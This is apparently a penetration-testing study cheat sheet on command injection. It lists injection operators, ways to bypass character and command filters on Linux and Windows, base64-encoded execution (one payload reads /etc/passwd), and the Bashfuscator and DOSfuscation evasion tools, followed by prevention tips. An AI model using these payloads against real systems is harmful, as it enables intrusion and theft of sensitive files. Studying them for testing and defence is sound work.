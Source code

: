 # Injection Operators




#### Remarques

* %0a : coller à la suite une commande qui peut s'executer en un mot : ex: printenv, ls ... 

* {..,..,..} : mettre au minimum 2 élements ( composantes d'une commande ex: {ls,-la})

* utiliser la technique d'encodage base64 pour les command injection
```bash
# ne pas oublier de transformer les espaces ( %09, %0a ) durant l'injection
# base64 de : cat etc/passwd | grep 33
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
|-|-|-|-|
|Semicolon| `;`|`%3b`|Both|
|New Line| `\n`|`%0a`|Both|
|Background| `&`|`%26`|Both (second output generally shown first)|
|Pipe| `\|`|`%7c`|Both (only second output is shown)|
|AND| `&&`|`%26%26`|Both (only if first succeeds)|
|OR| `\|\|`|`%7c%7c`|Second (only if first fails)|
|Sub-Shell| ` `` `|`%60%60`|Both (Linux-only)|
|Sub-Shell| `$()`|`%24%28%29`|Both (Linux-only)|

---
## Linux

### Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `printenv` | Can be used to view all environment variables |
| **Spaces** |
| `%09` | Using tabs (%09) instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |
| **Other Characters** |
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`) |

---
### Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |
| **Case Manipulation** |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** |
| `echo 'whoami' \| rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---
## Windows

### Filtered Character Bypass

| Code | Description |
| ----- | ----- |
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** |
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |

---
### Blacklisted Command Bypass

| Code | Description |
| ----- | ----- |
| **Character Insertion** |
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |

---

## Evasion tools

#### Linux (Bashfuscator)

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
python3 setup.py install --user

# usage
./bashfuscator -h
./bashfuscator -c '<CMD>' 

# more short obfuscate 
./bashfuscator -c '<CMD>' -s 1 -t 1 --no-mangling --layers 1
# run
bash -c 'eval <....>'
```

#### Windows (DOSfuscation)
- [pwsh](https://learn.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-linux?view=powershell-7.3)
```bash
# windows and pwsh 

# installation
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
# usage
help
SET COMMAND <CMD>
# set encoding 
encoding 
# encoding number
1
```

## Command Injection Prevention

- Input validation should be done both on the front-end and on the back-end.
- Use a Regular Expression regex for matching 
- we should still perform sanitization and remove any special characters not required for the specific format
    - DOMPurify library for a NodeJS back-end
- Finally, we should make sure that our back-end server is securely configured to reduce the impact in the event that the webserver is compromised
    - WAF
    - PoLP
    - Prevent certain functions from being executed by the web server
    - Limit the scope accessible by the web application to its folder
    - Reject double-encoded requests and non-ASCII characters in URLs
    - Avoid the use of sensitive/outdated libraries and modules 